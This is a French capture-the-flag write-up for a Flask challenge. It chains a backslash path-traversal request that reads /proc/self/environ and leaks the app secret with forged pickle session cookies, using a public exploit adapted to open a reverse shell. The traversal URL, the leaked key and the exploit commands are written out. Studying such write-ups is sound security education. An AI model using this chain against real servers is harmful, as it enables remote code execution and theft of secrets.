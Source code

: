 Old is better than new
=================================

Enoncé
-----------
Dave a récemment récupéré son ancien site de blog qu'il utilisait à l'époque, fonctionnant sur un ordinateur Windows. Avec vos connaissances en sécurité modernes, pouvez-vous découvrir les vulnérabilités qui auraient pu l'exposer à une compromission à l'époque ?

Exploit
------------

Très peu de code dans cette app python : 

.. code-block:: python 

    from flask import Flask, send_from_directory, session
    import ntpath
    import os

    # Act as if we're on Windows (I can't run Windows in Docker, sadly)
    path = ntpath
    _original_join = os.path.join
    os.path.join = lambda *parts: _original_join(*parts).replace("\\", "/")

    app = Flask(__name__)
    app.secret_key = os.environ.get("APP_SECRET")
    PUBLIC_DIR = os.path.join(os.path.dirname(__file__), "public")

    @app.route("/")
    @app.route("/<path:path>")
    def serve(path=None):
        return send_from_directory(PUBLIC_DIR, path or "index.html")

    if __name__ == "__main__":
        app.run(host="0.0.0.0", port=8000)


On peut tout de suite supposer qu'il y a une LFI via le replace de \ en / et l'utilisation de send_from_directory

On trouve rapidement notre LFI : 

.. code-block:: console
    
    https://old-is-better-than-new.fcsc.fr/..\..\..\..\proc\self\environ

On obtient la clé secrète de l'application flask : APP_SECRET=ce9fbd88ac4eec98482b6aaf623adee54060b1ef477c677437a1982fbda0e4ac

On peut maintenant forger des cookies, mais pourquoi faire ? 

Après plusieurs recherches sur werkzeug et flask on tombe sur : 

Dans Flask 0.10 : "Changed default cookie serialization format from pickle to JSON to limit the impact an attacker can do if the secret key leaks."

On se comprend donc qu'il y a une désérialisation via pickle

Puis force de recherche on tombe sur : https://www.reddit.com/r/flask/comments/17d4o1/the_dangers_of_deserializing_pickle_objects_and/?rdt=52911 

Qui indique ce site : https://web.archive.org/web/20141026081720/http://vudang.com/2013/01/python-web-framework-from-lfr-to-rce/ 

Et qui contient : 

.. code-block:: console
    
    Flask / Werkzeug ( by default, flash use werkzeug session API that's why we have it here. ): Flask implicitly calls session unserialization if the config['SECRET_KEY'] is set to some value and the session_cookie_name (default='session') exists in the cookie, even if there is no session handling code in the web app (how nice, attacker can create a backdoor by adding SECRET_KEY to the config file, and the naive user will just think of it as 'important').
    
On va donc utiliser l'exploit proposé dans le Reddit : https://github.com/danghvu/pwp

Dockerfile pour python2 : 

.. code-block:: console
    
    
    FROM python:2.7
    RUN apt-get update && apt-get install -y git curl && apt-get clean
    RUN pip install requests
    COPY . /app

On modifie connback.py pour mettre notre host et notre port de reverse shell
Et on modifie la commande /bin/bash par /get_flag ici : 

.. code-block:: console
    
    shell = subprocess.call(["/get_flag"])

Commande : 

.. code-block:: console
    
    sudo docker build -t test . 
    sudo docker run -it test /bin/bash
    cd app
    python exploit.py ce9fbd88ac4eec98482b6aaf623adee54060b1ef477c677437a1982fbda0e4ac https://old-is-better-than-new.fcsc.fr/

On obtient le flag dans le reverse shell